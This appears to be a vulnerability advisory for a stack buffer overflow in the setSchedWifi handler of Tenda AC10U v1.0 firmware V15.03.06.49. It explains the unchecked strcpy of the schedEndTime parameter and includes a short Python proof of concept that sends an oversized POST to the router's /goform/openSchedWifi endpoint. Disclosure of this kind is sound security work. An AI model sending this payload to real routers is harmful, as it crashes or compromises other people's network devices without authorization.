 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3795.html

## Affected version

AC10U v1.0 Firmware V15.03.06.49

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.49 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `sched_end_time` variable receives the `schedEndTime` parameter from a POST request and is later assigned to the `wlan_switch` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedEndTime`, the statement `strcpy(wlan_switch->end_time, sched_end_time);` can cause a buffer overflow. The user-provided `schedEndTime` can exceed the capacity of the `wlan_switch` array, triggering this security vulnerability.

![image-20240313152429855](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313152429855.png)

![image-20240313152704805](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313152704805.png)

![image-20240313152724165](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313152724165.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedEndTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313152455310](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313152455310.png)
